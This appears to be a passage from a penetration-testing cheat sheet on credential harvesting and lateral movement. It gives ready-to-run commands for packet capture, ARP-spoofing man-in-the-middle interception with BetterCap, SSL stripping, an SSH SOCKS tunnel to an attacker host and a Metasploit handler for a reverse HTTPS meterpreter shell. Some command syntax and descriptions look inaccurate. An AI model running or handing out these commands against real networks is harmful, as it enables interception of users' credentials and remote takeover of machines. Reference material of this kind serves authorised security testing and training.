 ### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 443"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### SSL Strip Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]], \[\[SSLStrip Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy --proxy-https

    sslstrip -l 443
    ```
* **Description:** Stripping SSL from connections in a man-in-the-middle attack, forcing clients to connect over unencrypted channels.

### Lateral Movement, Pivoting, and Tunnelling

#### HTTPS Tunneling

*   **Tool:** \[\[SSH]], \[\[NetCat]]

    ```bash
    ssh -D 8080 -C -N -f <attack_ip>
    ```
* **Description:** Using SSH over HTTPS to tunnel traffic and facilitate lateral movement within a network.

#### Pivoting through HTTPS

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST <attack_ip>
    set LPORT 443
    run
    ```
* **Description:** Establishing a reverse HTTPS shell to pivot into other network segments.
